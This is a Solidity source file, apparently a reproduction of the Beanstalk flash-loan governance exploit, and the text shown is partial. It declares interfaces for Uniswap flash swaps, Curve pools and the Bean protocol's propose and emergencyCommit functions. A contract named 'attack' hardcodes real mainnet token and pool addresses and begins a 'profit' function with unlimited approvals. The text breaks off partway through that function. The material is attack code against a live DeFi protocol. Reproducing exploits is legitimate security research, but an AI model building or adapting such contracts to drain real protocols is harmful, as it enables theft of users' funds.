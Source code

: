 ```solidity
interface IUniswapV2Pair{ //for uniswap flashloan
    function swap(uint , uint , address , bytes calldata ) external;
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function skim(address to) external;
    function burn(address) external;
}
interface ICRV{
    function add_liquidity( uint256[3] calldata, uint256) external;
    function add_liquidity( uint256[2] calldata, uint256) external;
    function exchange(int128, int128, uint256, uint256) external returns(uint);
    function remove_liquidity_one_coin(uint256, int128, uint256) external;
}
interface IBeanProtocol{
    enum FacetCutAction {Add, Replace, Remove}
    struct FacetCut {
        address facetAddress;
        FacetCutAction action;
        bytes4[] functionSelectors;
    }
    function propose(
        FacetCut[] calldata _diamondCut,
        address _init,
        bytes calldata _calldata,
        uint8 _pauseOrUnpause
    )
        external;
    function depositBeans(uint256) external;
    function vote(uint32) external;
    function emergencyCommit(uint32) external;
    function deposit(address, uint) external;
}
contract attack{
    address public beanTokenAddress         = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db;
    address public usdcAddress              = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public daiAddress               = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    address public usdtAddress              = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    address public crvDepositor             = 0xA79828DF1850E8a3A3064576f380D90aECDD3359;
    address public crvDTCPool               = 0xbEbc44782C7dB0a1A60Cb6fe97d0b483032FF1C7;
    address public crvDTC                   = 0x6c3F90f043a72FA612cbac8115EE7e52BDe6E490;
    address public lusdCrvAddress           = 0xEd279fDD11cA84bEef15AF5D39BB4d4bEE23F0cA;
    address public lusdAddress              = 0x5f98805A4E8be255a32880FDeC7F6728C6568bA0;
    address public beanCrvAddress           = 0x3a70DfA7d2262988064A2D051dd47521E43c9BdD;
    address public beanLusdAddress          = 0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D;
    address public aavePoolAddress          = 0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9;
    address public beanProtocolAddress      = 0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5;
    address public wethBeanUniPairAddress   = 0x87898263B6C5BABe34b4ec53F22d98430b91e371;
    address public wethAddress              = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public router                   = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    address public lusdOhmUniPairAddress    = 0x46E4D8A1322B9448905225E52F914094dBd6dDdF;
    address public weth                     = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;


    function profit() public{
        //prepare
        IERC20(beanTokenAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdcAddress).approve(crvDepositor, type(uint).max);
        IERC20(daiAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdtAddress).approve(crvDepositor, type(uint).max);
        IERC20(usdcAddress).approve(crvDTCPool, type(uint).max);
        IERC20(daiAddress).approve(crvDTCPool, type(uint).max);
        IERC20(usdtAddress).approve(crvDTCPool, type(uint).max);
        IERC20(crvDTC).approve(lusdCrvAddress, type(uint).max);
```